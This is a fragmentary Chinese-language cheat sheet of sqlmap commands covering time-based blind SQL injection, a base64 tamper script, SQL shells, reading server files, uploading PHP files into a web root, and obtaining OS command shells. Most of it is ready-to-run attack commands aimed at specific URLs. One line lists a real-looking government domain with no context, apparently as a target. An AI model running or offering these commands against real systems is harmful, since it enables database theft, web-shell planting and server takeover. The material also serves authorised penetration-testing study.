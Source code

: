 # 延迟注入

--time-sec

# base64编码注入

sqlmap -u http://ha.cker.in/index.php?tel=LTEnlG9ylCc4OCc9Jzg5 --tamper base64encode.py --dbs
http://lm.yichang.gov.cn/

# 请求时间延迟

参数： --time-sec
当使用继续时间的盲注时，时刻使用--time-sec参数设定延时时间默认是5秒

# 执行sql语句

--sql-query="select @@version"
--sql-shell

sqlmap会自动检测确定使用哪种SQL注入技术，如何插入检索语句
如果是SELECT查询语句，sqlmap将会输出结果。如果是通过SQL注入执行其他语句，需要测试是否支持多语句执行SQL语句

# 文件读写

从数据库服务器中读取文件
参数：--file-read
当数据库为MySQL,PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件

sqlmap.py -u "http://192.168.2.3:81/about/show.php?lang=cn&id=22" --file-read="C:\Inetpub\wwwroot\mysql-php\1.php"

# 文件上传

参数： --file-write,--file-dest
当数据库为MySQL,PostfreSQL或Microsoft SQL Server,并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件

sqlmap.py -u "http://192.168.2.129/article.php?id=5" --file-write="C:\1.php" --file-dest="/var/www/html/x.php"

# 命令执行

参数： --os-cmd,--os-shell
当数据库为MySQL,PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数
在MySQL、PostgreSQL,sqlmap上传一个二进制库，包含用户自定义的函数，sys_exec()和sys_eval()
cmd   执行cmd命令(win)
shell  执行当前用户命令
--os-shell
自动上传 脚本文件
返回shell

